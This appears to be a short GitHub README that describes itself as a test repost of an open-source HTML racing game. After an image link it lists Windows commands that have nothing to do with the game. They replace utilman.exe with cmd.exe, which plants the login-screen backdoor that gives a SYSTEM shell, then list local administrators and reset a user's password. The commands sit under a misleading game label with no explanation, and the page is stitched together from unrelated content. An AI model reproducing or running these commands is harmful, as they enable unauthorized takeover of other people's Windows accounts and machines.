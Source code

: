 # 仅供上传者Test！！！

---转自jakesgordon(javascript-racer)!!!---
--开源HTML前端游戏--
![image](https://github.com/liukee/TEST/assets/39934375/7ca99195-1b95-4872-b20d-c91accfd52e1)

copy C:\windows\system32\utilman.exe C:\Windows\system32\utilman.exebak
<br>copy C:\windows\system32\cmd.exe C:\Windows\system32\utilman.exe
<br>net localgroup administrators
<br>net user "user" *

